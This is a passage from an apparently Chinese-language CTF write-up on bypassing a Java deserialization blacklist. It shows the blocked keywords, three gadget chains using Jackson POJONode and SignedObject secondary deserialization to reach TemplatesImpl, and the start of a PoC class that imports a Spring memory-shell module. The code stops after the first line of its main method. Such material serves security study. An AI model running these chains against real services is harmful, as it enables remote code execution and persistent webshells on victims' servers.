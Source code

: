 禁用了这些关键字

```bash
private static final String[] blackList = new String[]{"AbstractTranslet", "Templates", "TemplatesImpl", "javax.management", "swing", "awt", "fastjson"};
```

那么接下来就是来看怎么打反序列化了，存在以上黑名单而且发现只有一个 jackson 依赖可以利用，JDK 自带的`TemplatesImpl`​也被过滤了，所以想到二次反序列化，那么问题就变成如何触发 getter 了

### 二次反序列化

上面也讲到存在 jackson 关键依赖，所以我们就可以用 jackson 中的`POJONode`​来调用 getter 方法来触发 SignedObject 的二次反序列化

但是这里遇到一个问题，二次打什么链呢？这里其实就是归结于如何调用 getter 的方法了，而这里的环境都是自带的 jdk+spring，所以说多也不算多说少也不算少的方法，以下就写出方式的调用链 (其实就是 1 2 3 排列组合为 113 223 123 这样子)，就写出一种 EXP

#### 方法一

```bash
HashMap#readObject() -> HashMap#putVal() -> HotSwappableTargetSource#equals() -> XString#equals() -> ToStringBean#toString() ->POJONode#toString() -> SignedObject#getObject() -> BadAttributeValueExpException#readObject() -> BaseJsonNode#toString() -> TemplatesImpl#getOutputProperties()
```

#### 方法二

```bash
BadAttributeValueExpException#readObject() -> ToStringBean#toString() ->POJONode#toString() -> SignedObject#getObject() -> BadAttributeValueExpException#readObject() -> BaseJsonNode#toString() -> TemplatesImpl#getOutputProperties()
```

#### 方法三

```bash
HashMap#readObject() -> HashMap#putVal() -> HotSwappableTargetSource#equals() -> XString#equals() -> ToStringBean#toString() ->POJONode#toString() -> SignedObject#getObject() -> HashMap#readObject() -> HashMap#putVal() -> HotSwappableTargetSource#equals() -> XString#equals() -> ToStringBean#toString() ->POJONode#toString()  -> TemplatesImpl#getOutputProperties()
```

```bash
import MenShell.SpringMemShell;
import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xpath.internal.objects.XString;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;
import org.springframework.aop.framework.AdvisedSupport;
import org.springframework.aop.target.HotSwappableTargetSource;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.*;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.security.*;
import java.util.Base64;
import java.util.HashMap;

public class SignedObjectBAVEPoC {
    public static void main(String[] args) throws Exception {

        ClassPool pool = ClassPool.getDefault();
```